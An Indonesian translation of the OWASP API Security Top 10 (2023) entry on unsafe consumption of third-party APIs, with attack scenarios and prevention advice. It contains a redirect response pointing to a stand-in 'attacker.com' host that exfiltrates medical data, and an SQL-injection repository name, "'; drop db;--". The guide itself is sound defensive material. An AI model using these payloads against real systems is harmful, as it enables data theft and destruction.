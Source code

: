# API10:2023 Konsumsi API Tanpa Peduli Keselamatan

| Agen ancaman/Vektor serangan | Kelemahan Keamanan | Impak |
| - | - | - |
| Spesifik API : Eksploitabilitas **Mudah** | Prevalensi **Umum** : Keterdeteksian **Rata-rata** | Teknis **Sangat Parah** : Spesifik Bisnis |
| Mengeksploitasi masalah ini memerlukan penyerang mengidentifikasi dan secara potensial mengkompromi API/layanan lain yang terintegrasi dengan target API. Biasalnya, informasi ini tidak tersedia secara publik atau API/layanan terintegrasi tidak dapat dieksploitasi dengan mudah. | Para pengembang cenderung mempercayai dan tidak memverifikasi titik-titik akhir yang berinteraksi dengan API pihak ketiga atau eksternal, mengandalkan pada persyaratan keamanan yang lebih lemah seperti misalnya terkait dengan keamanan transport, otentikasi/otorisasi, dan validasi dan sanitasi masukan. Penyerang perlu mengidentifikasi layanan yang terintegrasi dengan (sumber data) API target dan, pada akhirnya, mengkompromi mereka. | Impak bervariasi menurut apa yang dilakukan oleh API target dengan data yang ditarik. Eksploitasi yang sukses dapat mengarah ke eksposur informasi sensitif ke aktor yang tidak punya otorisasi, banyak jenis injeksi, atau penyangkalan layanan. |

## Apakah API Rentan?

Para pengembang cenderung memercayai data yang diterima dari API pihak ketiga
lebih dari pada masukan pengguna. Ini khususnya benar untuk API yang
ditawarkan oleh perusahaan-perusahaan yang dikenal baik. Karena itu, para
pengembang cenderung mengadopsi standar keamanan yang lebih lemah, misalnya,
dalam kaitan dengan validasi dan sanitasi masukan.

API mungkin rentan bila:

* Berinteraksi dengan API lain melalui kanal tak terenkripsi;
* Tidak memvalidasi dan mensanitasi secara tepat data yang dikumpulkan dari
  API lain sebelum memrosesnya atau meneruskannya ke komponen hilir;
* Mengikuti redireksi secara membuta;
* Tidak membatasi banyaknya sumber daya yang tersedia untuk memroses
  respons layanan pihak ketiga;
* Tidak mengimplementasikan tenggat waktu untuk interaksi dengan layanan pihak
  ketiga;
  
## Contoh Skenario Serangan

### Skenario #1

Suatu API mengandalkan layanan pihak ketiga untuk memperkaya alamat bisnis
yang diberikan oleh pengguna. Ketika sebuah alamat diberikan ke API oleh
pengguna akhir, itu dikirim ke layanan pihak ketiga dan data yang dikembalikan
kemudian disimpan pada suatu basis data SQL lokal.

Aktor jahat memakai layanan pihak ketiga untuk menyimpan suatu payload SQLi
yang terkait dengan sebuah bisnis yang dibuat oleh mereka. Kemudia mereka
menarget API yang rentan memberikan masukan spesifik yang membuatnya mengambil
"bisnis jahat" mereka dari layanan pihak ketiga. Payload SQLi berakhir
dieksekusi oleh basis data, mengeksfiltrasi data ke server yang dikendalikan
oleh penyerang.

### Skenario #2

Sebuah API terintegrasi dengan suatu penyedia layanan pihak ketiga untuk
menyimpan secara aman informasi medis pengguna yang sensitif. Data dikirim
melalui koneksi yang aman memakai permintaan HTTP seperti di bawah:

```
POST /user/store_phr_record
{
  "genome": "ACTAGTAG__TTGADDAAIICCTT…"
}
```

Aktor jahat menemukan sebuah cara untuk mengkompromi API pihak ketiga dan
itu mulai merespon dengan `308 Permanent Redirect` ke permintaan-permintaan
seperti yang sebelumnya.

```
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

Karena API secara membuta mengikuti redireksi pihak ketiga, itu akan mengulang
permintaan yang persis sama termasuk data sensitif milik pengguna, tapi kali 
ini ke server penyerang.

### Skenario #3

Seorang penyeranng dapat menyiapkan suatu repositori git bernama
`'; drop db;--`.

Kini, ketika suatu integrasi dari sebuah aplikasi yang diserang dilakukan
dengan repositori jahat, payload injeksi SQL dipakai pada suatu aplikasi
yang membangun sebuah kuiri SQL sambil memercayai bahwa nama repositori
adalah masukan yang aman.

## Bagaimana Cara Mencegah

* Saat mengevaluasi penyedia layanan, ases postur keamanan API mereka.
* Pastikan semua interaksi API terjadi lewat kanal komunikasi yang aman (TLS).
* Selalu validasikan dan sanitasikan dengan tepat data yang diterima dari
  API terintegrasi sebelum memakainya.
* Pelihara suatu daftar izin dari lokasi yang dikenal baik yang oleh API
  terintegrasi mungkin Anda diarahkan ke sana: jangan secara membabi buta
  mengikuti redirect.

## Referensi

### OWASP

* [Web Service Security Cheat Sheet][1]
* [Injection Flaws][2]
* [Input Validation Cheat Sheet][3]
* [Injection Prevention Cheat Sheet][4]
* [Transport Layer Protection Cheat Sheet][5]
* [Unvalidated Redirects and Forwards Cheat Sheet][6]

### Eksternal

* [CWE-20: Improper Input Validation][7]
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor][8]
* [CWE-319: Cleartext Transmission of Sensitive Information][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html

